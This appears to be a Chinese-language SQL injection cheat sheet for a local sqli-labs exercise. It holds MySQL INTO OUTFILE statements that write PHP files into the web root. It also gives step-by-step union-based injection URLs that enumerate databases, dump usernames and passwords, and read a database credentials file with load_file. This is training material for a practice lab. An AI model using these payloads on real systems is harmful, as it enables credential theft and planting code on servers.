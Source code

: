 写
	
	select '<?php phpinfo();?>' into outfile 'c://php//www//kkk.php';
	select '<?php phpinfo();?>' into dumpfile 'c://php//www//kkk2.php';
	select * from user into outfile 'c://php//www/kkk4.php' fields terminated by '<?php phpinfo();?>'

---

## 实例

tips:  
> 查询数据的时候把信息记录到txt上

	# 判断是否存在sql注入 
	http://127.0.0.1/Less-1/?id=2' 
	http://127.0.0.1/Less-1/?id=2' and '1'=2

	# 判断列数
	http://127.0.0.1/Less-1/?id=2' order by 3--+

	# 判断输出信息位置 (union之前要报错才会查询union后面的)
	http://127.0.0.1/Less-1/?id=99999' union select 1,2,3--+

	# 查库名
	http://127.0.0.1/Less-1/?id=' union select 1,2,（select group_concat(schema_name) from information_schema.schemata--+

	# 查表名 'security'/十六进制0x/database()
	http://127.0.0.1/Less-1/?id=' union select 1,2,（select group_concat(table_name) from information_schema.tables where table_schema='security'--+

	# 查数据 group_concat/concat_ws
	http://127.0.0.1/Less-1/?id=' union select 1,2,（select group_concat(username,0x7e,password) from security.users)--+

	# 查权限
	http://127.0.0.1/Less-1/?id=' union select 1,2,(select user())--+ 

	> root@localhost 

	#  读文件 db-creds.inc 数据库配置文件
	http://127.0.0.1/Less-1/?id=' union select 1,2,(select load_file('/var/www/html/sql-connections/db-creds.inc'))--+ 
